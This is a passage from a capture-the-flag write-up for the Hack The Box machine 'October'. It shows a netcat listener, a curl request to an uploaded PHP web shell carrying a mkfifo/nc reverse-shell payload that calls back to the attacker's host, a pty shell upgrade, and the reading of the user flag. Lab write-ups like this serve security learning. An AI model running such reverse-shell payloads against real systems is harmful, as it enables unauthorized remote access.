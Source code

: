 And works

![](/assets/images/htb-writeup-october/www.png)

## Reverse shell

```bash
nc -lvnp 443
listening on [any] 443 ...
```

Now send the reverse shell

```bash
❯ curl http://10.10.10.16/storage/app/media/cmd.php5 --data-urlencode "cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.21 443 >/tmp/f"
```

```bash
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.16] 58834
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```

Better shell

```bash
$ python -c 'import pty;pty.spawn("bash")'
www-data@october:/var/www/html/cms/storage/app/media$
Ctrl + Z
❯ stty raw -echo; fg
[1]  + continued  nc -lvnp 443
                              reset xterm
ENTER
www-data@october:/var/www/html/cms/storage/app/media$ export SHELL=bash
www-data@october:/var/www/html/cms/storage/app/media$ export TERM=xterm
```

Now we can read the user flag

```bash
www-data@october:/home/harry$ cat user.txt 
3c0ab4301ddd0d355b74672970ba2279
```

## Buffer Overflow
